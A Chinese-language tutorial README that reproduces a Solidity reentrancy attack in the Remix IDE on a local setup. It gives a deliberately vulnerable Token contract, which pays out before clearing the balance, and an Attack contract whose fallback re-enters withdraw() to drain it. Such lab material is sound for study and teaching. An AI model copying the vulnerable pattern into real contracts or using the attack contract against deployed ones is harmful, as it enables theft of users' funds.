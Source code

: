 # 以太坊私有链搭建

https://blog.csdn.net/jomante/article/details/115090956

# 重入攻击复现

在REMIX IDE中 新建test.sol文件

![image-20221224100042630](README.assets/image-20221224100042630.png)

注意左侧的编译器选0.4.x

![image-20221224094347919](README.assets/image-20221224094347919.png)

```solidity
contract Token {
mapping(address => uint) public balances;
function deposit() public payable {
balances[msg.sender] += msg.value;
}
function withdraw() public {
uint amount = balances[msg.sender];
require(amount > 0);
msg.sender.call.value(amount)(""); // bug 进入到攻击合约的fallback函数中
balances[msg.sender] = 0;
}
}
contract Attack {
Token public instance;
constructor(address _addr) {
instance = Token(_addr); // 实例化
}
function attack() external payable {
instance.deposit.value(1 ether)(); //存钱，保证能调用withdraw()
instance.withdraw(); // 开始攻击
}
function balanceSelf() public returns(uint256) {
return this.balance;
}
function() external payable {
if (address(instance).balance >= 1 ether)// 如果完成攻击则返回
instance.withdraw(); // 重入
}
}
```

然后点击左上角的三角形编译

然后点击左侧准备部署，选好一个账户，选Token再deploy

![image-20221224100145741](README.assets/image-20221224100145741.png)



然后value改5，单位改ether，点下面的deposit

![image-20221224100226035](README.assets/image-20221224100226035.png)

就存入了5 ETH

![image-20221224095923615](README.assets/image-20221224095923615.png)

然后换Attack，点击刚才token的地址部分，点复制拿到地址，拷贝到deploy旁边的位置，上面account换一个账户，然后点deploy

![image-20221224100323168](README.assets/image-20221224100323168.png)

![image-20221224100016020](README.assets/image-20221224100016020.png)

部署完了之后，value改1，点下面的attack红色按钮。

![image-20221224100023637](README.assets/image-20221224100023637.png)

1+5 = 6. 发现重入攻击成功。

![image-20221224100032256](README.assets/image-20221224100032256.png)